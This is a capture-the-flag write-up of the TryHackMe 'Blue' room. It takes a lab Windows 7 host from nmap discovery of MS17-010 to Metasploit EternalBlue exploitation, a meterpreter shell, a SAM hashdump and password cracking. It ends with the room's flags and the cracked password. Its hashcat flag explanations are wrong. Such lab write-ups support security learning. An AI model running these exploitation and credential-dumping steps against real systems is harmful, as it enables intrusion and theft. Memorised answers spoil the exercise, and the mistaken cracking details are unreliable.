

# Blue

Author: Corbett Stephens July 14, 2021

Blue is a TryHackMe room that explores the "Eternal Blue" exploit from older versions of windows. 

Room is [here](https://tryhackme.com/room/blue).

--------------------------------------------------------------------------------------------------

The first thing I do is start up openvpn that way I can connect to the TryHackMe rooms.

`sudo openvpn nullbett.ovpn`

## Reconnaissance
Host ip address: `10.10.48.230`

Next, I ping the host to see if we can get a response.

`ping 10.10.48.230`

Respones:
`PING 10.10.48.230 (10.10.48.230) 56(84) bytes of data.
64 bytes from 10.10.48.230: icmp_seq=1 ttl=125 time=180 ms
64 bytes from 10.10.48.230: icmp_seq=2 ttl=125 time=202 ms
64 bytes from 10.10.48.230: icmp_seq=3 ttl=125 time=224 ms
64 bytes from 10.10.48.230: icmp_seq=4 ttl=125 time=144 ms
64 bytes from 10.10.48.230: icmp_seq=5 ttl=125 time=167 ms
64 bytes from 10.10.48.230: icmp_seq=6 ttl=125 time=189 ms
^C64 bytes from 10.10.48.230: icmp_seq=7 ttl=125 time=212 ms
64 bytes from 10.10.48.230: icmp_seq=8 ttl=125 time=235 ms
^C
--- 10.10.48.230 ping statistics ---
8 packets transmitted, 8 received, 0% packet loss, time 7010ms
rtt min/avg/max/mdev = 144.010/193.973/235.202/28.333 ms`

We can see that the host is up and running, so now we can start with a nmap scan.

I run the command:
`nmap -p0-1000 -sC -sV -vv 10.10.48.230 -oN initial.nmap`

-"-p0-1000" scans the first 1000 ports
-"-sC" uses the default script for enumeration
-"-sV" tries to specify versions
-"-vv" extra verbosity
-"-oN initial.nmap" writes the output to the file initial.nmap

Looking at the [output](https://github.com/nullbett/tryhackme/blob/main/blue/initial.nmap) we can see that three ports are open.

`PORT    STATE SERVICE      REASON  VERSION
135/tcp open  msrpc        syn-ack Microsoft Windows RPC
139/tcp open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows`

We also get a hint that a potential user is "Jon".

The next thing I would do is run another nmap scan to look for vulnerablities. This could be done in the initial nmap scan but I decided to use two seperate scans. If stealth was a concern then I would otherwise use a different command.

I'm used the same command but changed the script to "vuln".

`nmap -p0-1000 --script vuln -sV -vv 10.10.48.230 -oN vuln.nmap`

Luckily, the results yield some intersting information.

| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).

Do to our vuln script we can see that this system is vulnerable to smb-vuln-ms17-010 which is a remote code execution vulnerability.

A simple google search of "smb-vuln-ms17-010" will pull up the information about this vulnerability. Reading the first line of the [article](https://nmap.org/nsedoc/scripts/smb-vuln-ms17-010.html) we can see that ms17-010 is also known as "EternalBlue". This is helpful information because it will make it easier a module to use within metasploit.

-----------------------------------------------------------------------------------------------------

#Gaining Access

We now want to try to gain futher access of this machine. We have a potential attack vector with EternalBlue. For someone that doesn't know the first step in using the EternalBlue exploit, use your favorite search engine to look for a starting position.

Fire up Metasploit!

In Kali Linux, you can do this by searching metasploit in the home bar and then typing in your sudo password. Otherwise, you'll want run "sudo msfdb init && msfconsole"

Once the metasploit shell is spawned the fun can begin.

Since my initial attack vector consists of EternalBlue, then I will look for a module that will allow me to use it.

This can be done via:
"search eternalblue" 

The module we want is "exploit/windows/smb/ms17_010_eternalblue" because this uses windows versions prior to windows 8

An easy way to select the module you want to use is to enter "use <number>" so we would enter "use 2"

We want to know the required fields for this module. This can be done by entering the command "options". This will allows us to see some important information.

**Picture**

We need to set the RHOSTS which is the target host that we are attacking. We do this by entering:

"set RHOSTS 10.10.48.230"

The playload we want to use is the "windows/x64/shell/reverse_tcp"

We can set this as the payload by doing "set payload windows/x64/shell/reverse_tcp"

To run the exploit we can simply enter "exploit"

If the exploit is successful then a DOS (disk operationg system) will appear. 

If we run "whoami" it tells us that we are "nt authority\system"

We want upgrade this shell to a meterprerter shell. Background the current shell by doing "CTRL + Z". I used this article to help upgrade my shell https://www.hackingarticles.in/command-shell-to-meterpreter/ 

I used "sessions -u 1"

**PICTURE**

Now that we have our meterpreter shell, we can run "getsystem" to ensure that we are indeed "nt authority\system".

Just because our user is system, doesnt mean that the process is. We will want to switch our process to one that is running "nt authority\system". This is shown below.

**PICTURE**

Meterpreter has a handy command to dump the SAM database. SAM is the system accounts manager. The SAM database stores passwords locally. By using the "hashdump" command we can get this data and try to make something useful with it.

We get the following data:

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

In this case, we are interested in Jon. I created a file named "jon_hash.txt" and put the hash values into the file. I decided that the long string of data was two 32 character hash strings and put them on seperate lines. To crack this hash, I used hashcat. I ran the following command. 

hashcat -m 0 -a 0 jon_hash.txt ./rockyou.txt --show

"-m 0" straight mode
"-a 0" MD5
"jon_hash.txt" hash file
"./rockyou.txt" dictionary
"--show" show results

john jon.hash --format=NT --wordlist=./rockyou.txt
john jon.hash --format=NT --show
Jon:alqfna22:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

password:alqfna22

#Task 5: Find Flags!

The first flag can be found by 'cd \' and then type 'flag1.txt'

Flag 1: flag{access_the_machine}

The second flag is found in config
C:\Windows\system32\config
"cat flag2.txt"

Flag 2: flag{sam_database_elevated_access}

Flag 3 can be found in C:\Users\Jon\Documents

Flag 3: flag{admin_documents_can_be_valuable}
